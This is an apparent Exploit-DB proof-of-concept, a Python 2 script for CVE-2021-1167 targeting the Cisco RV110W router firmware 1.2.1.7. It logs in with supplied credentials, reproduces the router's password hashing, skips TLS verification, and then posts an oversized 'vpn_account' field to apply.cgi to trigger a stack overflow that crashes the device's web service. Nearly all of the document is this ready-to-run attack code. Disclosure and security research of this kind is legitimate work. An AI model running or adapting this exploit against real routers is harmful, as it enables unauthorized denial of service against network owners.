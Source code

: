 EXP
---

    # Exploit Title: Cisco RV110W 1.2.1.7 - 'vpn_account' Denial of Service (PoC)
    # Date: 2021-01
    # Exploit Author: Shizhi He
    # Vendor Homepage: https://www.cisco.com/
    # Software Link: https://software.cisco.com/download/home/283879340/type/282487380/release/1.2.1.7
    # Version: V1.2.1.7
    # Tested on: RV110W V1.2.1.7
    # CVE : CVE-2021-1167
    # References:
    # https://github.com/pwnninja/cisco/blob/main/vpn_client_stackoverflow.md
    # https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-rv-overflow-WUnUgv4U

    #!/usr/bin/env python2

    #####
    ## Cisco RV110W Remote Stack Overflow.
    ### Tested on version: V1.2.1.7 (maybe useable on other products and versions)


    import os
    import sys
    import re
    import urllib
    import urllib2
    import getopt
    import json
    import hashlib
    import ssl

    ssl._create_default_https_context = ssl._create_unverified_context

    ###
    # Usage: ./CVE-2021-1167.py 192.168.1.1 443 cisco cisco
    # This PoC will crash the target HTTP/HTTPS service
    ###

    #encrypt password
    def enc(s):
        l = len(s)
        s += "%02d" % l
        mod = l + 2
        ans = ""
        for i in range(64):
      tmp = i % mod
      ans += s[tmp]
        return hashlib.md5(ans).hexdigest()

    if __name__ == "__main__":
        print "Usage: ./CVE-2021-1167.py 192.168.1.1 443 cisco cisco"

        IP = sys.argv[1]
        PORT = sys.argv[2]
        USERNAME = sys.argv[3]
        PASSWORD = enc(sys.argv[4])
        url = 'https://' + IP + ':' + PORT + '/'

        #get session_id by POST login.cgi
        req = urllib2.Request(url + "login.cgi")
        req.add_header('Origin', url)
        req.add_header('Upgrade-Insecure-Requests', 1)
        req.add_header('Content-Type', 'application/x-www-form-urlencoded')
        req.add_header('User-Agent',
                        'Mozilla/5.0 AppleWebKit/537.36 (KHTML, like Gecko)')
        req.add_header('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8')
        req.add_header('Referer', url)
        req.add_header('Accept-Encoding', 'gzip, deflate')
        req.add_header('Accept-Language', 'en-US,en;q=0.9')
        req.add_header('Cookie', 'SessionID=')
        data = {"submit_button": "login",
                "submit_type": "",
                "gui_action": "",
                "wait_time": "0",
                "change_action": "",
                "enc": "1",
                "user": USERNAME,
                "pwd": PASSWORD,
                "sel_lang": "EN"
                }
        r = urllib2.urlopen(req, urllib.urlencode(data))
        resp = r.read()
        login_st = re.search(r'.*login_st=\d;', resp).group().split("=")[1]
        session_id = re.search(r'.*session_id.*\";', resp).group().split("\"")[1]
        print session_id

        #trigger stack overflow through POST vpn_account parameter and cause denial of service
        req2 = urllib2.Request(url + "apply.cgi;session_id=" + session_id)
        req2.add_header('Origin', url)
        req2.add_header('Upgrade-Insecure-Requests', 1)
        req2.add_header('Content-Type', 'application/x-www-form-urlencoded')
        req2.add_header('User-Agent',
                        'Mozilla/5.0 AppleWebKit/537.36 (KHTML, like Gecko)')
        req2.add_header('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8')
        req2.add_header('Referer', url)
        req2.add_header('Accept-Encoding', 'gzip, deflate')
        req2.add_header('Accept-Language', 'en-US,en;q=0.9')
        req2.add_header('Cookie', 'SessionID=')
        poc = "a" * 4096
        data_cmd = {
                "gui_action": "Apply",
                "submit_type": "",
                "submit_button": "vpn_client",
                "change_action": "",
                "pptpd_enable": "0",
                "pptpd_localip": "10.0.0.1",
                "pptpd_remoteip": "10.0.0.10-14",
                "pptpd_account": "",
                "vpn_pptpd_account": "1",
                "vpn_account": poc,
                "change_lan_ip": "0",
                "netbios_enable": "0",
                "mppe_disable": "0",
                "importvpnclient": "",
                "browser": "",
                "webpage_end": "1",
                }
        r = urllib2.urlopen(req2, urllib.urlencode(data_cmd))
        resp = r.read()
        print resp
